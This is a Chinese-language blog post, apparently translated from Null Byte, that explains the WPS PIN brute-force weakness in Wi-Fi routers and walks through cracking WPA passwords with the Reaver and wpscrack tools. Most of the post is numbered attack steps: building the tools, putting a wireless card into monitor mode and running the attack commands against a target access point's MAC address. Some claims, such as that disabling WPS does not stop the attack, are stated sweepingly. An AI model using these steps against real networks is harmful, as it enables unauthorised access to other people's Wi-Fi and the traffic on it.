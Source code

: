 ```yaml
---
layout: post
title: "通过破解WPS PIN Hack WPA WIFI密码"
date: 2017-11-26
excerpt: "破解WPA"
translation: ture
tags:
- Wi-Fi hacking
comments: true
---
```


WPS或者说WiFi Protected Setup（WiFi保护设置）的一个漏洞已经被TNS（译者注：一家安全公司）发现了一年多了，最终开发并验证出了利用代码。TNS，漏洞发现者和.braindump的Stefan都开发了他们各自的“reaver”和“wpscrack”程序来利用WPS的漏洞。 从这个漏洞攻击中，一旦接入点WPS的攻击启动，通常需要2-10个小时（取决于你使用哪个程序，）WPA密码几乎可以立即以明文方式恢复。

这种攻击通过对静态WPS PIN进行智能暴力破解来攻破WPS。通过猜测PIN码，路由器实际上会返回，无论前四位（8位）是否正确。然后，最终数是用于满足算法的检查数。这可以被用来暴力破解WPS PIN，并可以在非常短的时间内恢复WPA密码，而不是在WPA标准里攻击。

在这篇文章中，让我们来看看如何使用这两个工具来破解WPS。到目前为止，还没有路由器可以安全地抵御这种攻击，但是没有任何厂商已经做出响应，以及发布固件或采取缓解措施。即使禁用WPS，也会在大多数路由器上实现这种攻击。

## 要求

- 一台计算机（或一台虚拟机）运行了Kali Linux OS。如果你是一个初学者的话，可以买一个我们的[Kali Pi](https://null-byte.wonderhowto.com/how-to/set-up-headless-raspberry-pi-hacking-platform-running-kali-linux-0176182/)，运行在35美元的Raspberry Pi上（译者注：广告...）
- 一台运行WPS的路由器
- 一个可以在监听模式下进行包注入的无线网卡（译者注：又是一段广告...省略了）
- 下列软件（以软件包名安装）：aircrack-ng, python-pycryptopp, python-scapy, libpcap-dev

## 工具

- [Reaver](http://reaver-wps.googlecode.com/files/reaver-1.3.tar.gz)（支持所有路由器）
- [wpscrack](dl.dropbox.com/u/22108808/wpscrack.zip) （快，但是只支持主要品牌的路由器）

## 破解WPS

按照下面选择使用的工具对应的指南进行操作。

### Reaver

1.解压 Reaver

	unzip reaver-1.3.tar.gz

2.改变Reaver地址

	cd reaver-1.3

3.配置，编译和安装应用程序

	./configure && make && sudo make install

4.扫描一个AP并复制它的MAC地址备用

	sudo iwlist scan wlan0

5.设置你的设备为监听模式

	sudo airmon-ng start wlan0

6.运行工具攻击AP

	reaver -i mon0 -b <MA:CA:DD:RE:SS:XX> -vv

7.等，直到完成

这个工具会让这变得很简单

## wpscrack.py

1.使程序可执行

	chmod +x wpscrack.py

2.扫描一个AP并复制它的MAC地址备用

	sudo iwlist scan wlan0

3.获取你的MAC地址备用

	ip link show wlan0 | awk '/ether/ {print $2}'

4.设置你的设备为监听模式

	sudo airmon-ng start wlan0

5.攻击你的AP

	wpscrack.py –iface mon0 –client <your MAC, because you're attacking yourself, right?> –bssid <AP MAC address> --ssid <name of your AP> -v

6.等待胜利

现在，让我们相信在不久的将来我们可以看到大量固件的更新，不然在这个世界会有很多地方陷入麻烦。


